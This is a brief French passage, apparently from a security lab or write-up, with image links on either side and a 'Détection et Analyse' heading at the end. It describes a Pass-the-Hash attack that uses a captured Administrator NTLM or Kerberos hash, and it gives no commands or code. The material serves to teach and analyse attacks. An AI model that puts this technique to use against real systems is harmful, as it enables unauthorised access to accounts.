

Après avoir récupéré le hash du compte Administrateur, nous pouvons effectuer une attaque Pass-the-Hash, une technique qui permet de s'authentifier sur un système distant en utilisant le hash NTLM ou Kerberos d'un compte au lieu du mot de passe en clair.



# Détection et Analyse